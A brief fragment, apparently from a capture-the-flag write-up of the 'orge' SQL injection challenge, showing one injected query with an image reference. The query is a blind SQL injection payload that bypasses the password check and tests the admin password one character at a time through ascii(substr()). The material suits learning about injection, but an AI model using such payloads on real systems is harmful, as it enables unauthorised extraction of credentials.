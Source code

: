 * c

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,8,1))=99#'`

<img src="./img/orge9.png" width="700">
